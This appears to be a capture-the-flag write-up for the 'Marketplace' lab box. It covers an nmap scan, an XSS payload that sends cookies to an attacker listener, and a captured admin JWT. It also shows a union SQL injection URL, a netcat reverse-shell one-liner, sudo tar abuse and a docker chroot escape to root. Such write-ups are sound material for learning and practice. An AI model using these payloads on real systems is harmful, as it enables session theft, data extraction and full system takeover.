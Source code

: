 # Marketplace
# Mayank Srivastava | 15 dec 2020
--------------------------------------------------

## Nmap Scan

``` #Nmap 7.91 scan initiated Tue Dec 15 16:06:17 2020 as: nmap -sC -sV -oN nmap/initial 10.10.44.16
 Nmap scan report for 10.10.44.16
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 15 16:07:40 2020 -- 1 IP address (1 host up) scanned in 82.97 seconds
```

Found xss vulnerability in both of text box

## running python3 simple http server

``` <script>var i=new Image; i.src="http://10.4.10.4:8000/?"+document.cookie;</script>```

admin token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDgwMjk3ODN9.vJ9-d2NiJld0S3a5Am7DNkxYuD-ubW_QWg0v1lX5t6g


## Sql Injection

looks like admin panel have sql vulnerability for cross check put" ' " at the end of the url

now we can inject some sql code to access the database also we can try union based sqli attack to read content from the database

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

## Enumeration

after found the username and the ssh password

we are on the box

sudo -l 

```  User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh ```

we can abuse tar to gain access on the machine

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.10.4 9001 >/tmp/f" > shell.sh

chmod 777 /opt/backups/backup.tar

nc -nlvp 9001

get connection as michael but user michael is in docker env
we can also exploit docker env using alpine

docker image ls

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

after running this docker alpine we have a root shell 
